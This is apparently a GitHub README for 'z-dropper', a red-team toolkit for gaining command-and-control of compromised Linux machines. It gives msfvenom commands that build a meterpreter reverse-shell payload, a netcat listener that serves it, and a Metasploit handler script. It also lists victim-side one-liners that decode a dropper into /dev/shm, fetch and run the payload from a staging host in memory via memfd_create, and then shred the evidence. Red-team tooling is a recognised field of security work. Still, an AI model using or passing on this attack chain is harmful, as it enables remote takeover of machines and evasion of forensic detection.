 # z-dropper

## Purpose

This repository contains the collection of initial code execution patterns and C2 mechanisms useful during red team engagements.

## Scenario 1

**Objectives:** setup an interactive C2 communication channel between victim machine and a red team controlled server. Using sophisticated evasion techniques on both network and host levels are not necessary as target environemnt is not actively monitored so the risks of being exposed are minimal. The priority is on having convenient and interactive C2 communication channel with the victim Linux machine.

**Assumptions:**

 - Red team members have already achieved remote `/bin/sh` access to the victim machine for example via: mounting successful password guessing attack on ssh service, using (previously acquired) credentials (e.g. SSH key), exploiting publicly exposed service (e.g. postfix), exploting vulnerability in hosted web application. 

### Backend

Staging machine (ephemeral) serving stageless `mettle` payload:

```
staging$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<C2_IP> LPORT=443 --platform linux -f elf -a x64 -o beacon-mettle
staging$ nc -nlvp 443 < beacon-mettle
```

Meterpreter handler as our command and control (`C2`) machine:

```
c2$ cat > mettle-handler.rc <<'EOF'
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <C2_IP>
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

c2$ msfconsole -r mettle-handler.rc
```

### Pattern 0

Preparation:

```
# Getting source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case0.zig
```

### Pattern 1

 - Only `z-dropper` is dropped on the victim's filesystem (though only on `tmpfs`).
 - Main payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` + `execve` syscalls (directly from memory).

Preparing C version:

```
# Getting z-dropper source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.c

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig cc -static -Os -target x86_64-linux-musl ${EXE}.c -o $EXE; strip -x -R -s -g $EXE; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

Preparing Zig version:

```
# Getting source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.zig

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig build-exe -OReleaseSmall --strip ${EXE}.zig; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

### Pattern 2

Assumptions:

 - Pure fileless execution (with the help of Python interpreter)
 - Python 3 interpreter is required on the victim machine. 
 - Payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` + `execve` syscalls using Python's `ctype` module.
